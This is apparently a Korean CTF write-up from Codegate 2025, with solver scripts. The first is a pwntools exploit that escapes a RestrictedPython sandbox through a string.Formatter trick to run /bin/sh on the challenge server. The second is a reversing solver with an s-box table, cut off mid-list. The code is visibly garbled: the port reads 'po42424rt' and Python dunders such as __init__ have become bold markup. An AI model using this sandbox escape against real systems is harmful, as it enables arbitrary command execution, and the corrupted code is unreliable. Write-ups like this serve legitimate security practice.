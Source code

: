 `RestrictedPython`라는 라이브러리를 이용한 **jailbreak 문제**임을 알 수 있다.

<https://ur4ndom.dev/posts/2023-07-02-uiuctf-rattler-read/>에 나와 있는 익스플로잇 코드를 응용해 사용하면 된다.

{: file="solver.py"}

```py
from pwn import *

connection = remote('3.35.196.167', po42424rt)

python_code = """def code():
class Baz(string.Formatter): pass; get_field = lambda self, field_name, args, kwargs: (string.Formatter.get_field(self, field_name, args, kwargs)[0]("/bin/sh"), "");
return Baz().format("{0.Random.**init**.**globals**[_os].system}", random)
"""

connection.send(python_code.encode() + b'\n')

response = connection.interactive()
connection.close()

```

`codegate2025{ce66359384d8fa276408f2a648b0cd08f63ed1e066c66083efb736509093156881e3c093ab1f958854bcd211614dbfe408c8728a8f22}`

## rev/initial (250 points, 57 solves)

{: file="solver.py"}

```py
target = [
    54, -30, 46, -122, 109, 36, -51, -108, 26, 26, 70, -101, 73, -125, 97, 21,
    32, -78, 71, -22, 13, 66, -23, 61, -28, 116, 27, 22, -117, 84, 46, -86
]

target = [(x & 0xff) for x in target]

def reverse_rotation(value, shift):
    shift = shift & 6  # Same as in the original: j & 6
    return ((value >> (8 - shift)) | (value << shift)) & 0xff

def reverse_sbox(value, sbox):
    for i in range(256):
        if sbox[i] == value:
            return i
    return -1

sbox = [
    69, -72, 26, 128, 71, -53, -42, 25, 29, 88, 86, -30, 54, -28, 39, 101,
    -79, 115, -23, 92, 126, 66, 124, -34, 113, 97, -10, 72, -11, 34, 87, 27,
    -81, -37, -115, -117, -64, 43, -44, -95, -52, -14, -21, -66, 55, 56, -39, 30,
    99, -29, 77, -108, 19, -70, -100, -122, 16, 53, -4, 79, -41, -45, 123, 58,
    -55, -113, -48, 36, -15, 5, 44, 83, 94, -116, -106, 61, -90, -92, 110, -49,
    91, 109, 4, -19, 18, 122, 23, 37, 52, -36, -83, -31, 32, -111, 117, 6,
    -60, 116, 111, 120, 0, 108, -62, -85, -87, -97, -80, 22, 51, -112, -51, -78,
    60, -86, -101, 81, 78, 63, 28, 80, -6, 24, -24, -76, 84, -71, 59, 73,
    -7, -74, -103, -99, 125, 14, 102, -17, -1, 21, -105, 85, 15, -8, 33, 46,
    -125, -13, -107, 10, -88, -68, 93, -75, 50, -3, -9, -40, 38, -119, 100, 47,
    -89, -54, 13, -20, -61, -5, -84, -73, 9, -18, -124, -110, 121, 1, 7, -94,
    119, 74, 2, 96, 57, -96, -109, -67, -120, -58, -27, -25, -50, 35, -69, -33,
    -123, -63, 89, -22, -46, -102, -26, 49, 20, -2, -59, 68, 17, -121, 103, -47,
    75, -38, 106, 82, -65, 11, -12, 90, -118, 8, 40, -93, 127, 48, 112, -98,
    45, 12, -126, -82, 64, 104, 67, 118, -32, 62, -114, 42, 76, -91, -43, 105,
    114, -56, -127, 107, 70, -57, -77, 31, 95, -104, 41, -16, 98, 3, -35, 65
```